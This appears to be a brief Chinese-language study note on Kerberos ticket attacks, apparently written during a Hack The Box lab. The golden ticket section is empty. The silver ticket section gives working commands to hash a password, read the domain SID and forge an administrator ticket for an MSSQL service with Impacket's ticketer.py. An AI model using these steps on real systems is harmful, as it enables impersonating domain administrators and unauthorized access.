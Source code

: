 # 票据攻击

## 黄金票据

TODO

## 白银票据

当攻击者拥有指定服务的密钥，就能够伪造高权限的PAC，然后把其封装在ST里，并对其进行PAC_SERVER_CHECKSUM签名和加密。客户端再利用这个ST以高权限访问指定服务。这个攻击过程被称为白银票据传递攻击。



创建白银票据需要知道：

- 目标服务的密钥（即NTLM hash）
- 域的SID值
- 域名
- 要伪造的域用户，一般是Administrator。



1.得到密码（如果知道密码的话）：

```shell
python2
import hashlib
hashlib.new('md4', 'REGGIE1234ronnie'.encode('utf-16le')).digest().encode('hex')
```

2.获得域的SID值：

```shell
Get-ADDomain | fl DomainSID
```

3.得到票据：

```shell
python3.10 ticketer.py -nthash 1443ec19da4dac4ffc953bca1b57b4cf -spn MSSQLSvc/dc.sequel.htb -domain sequel.htb -domain-sid S-1-5-21-4078382237-1492182817-2568127209 administrator
```

```shell
export KRB5CCNAME=administrator.ccache
```

接下来使用smbexec.py等脚本的时候指定-k参数即可（但是为什么没打通。。。）。

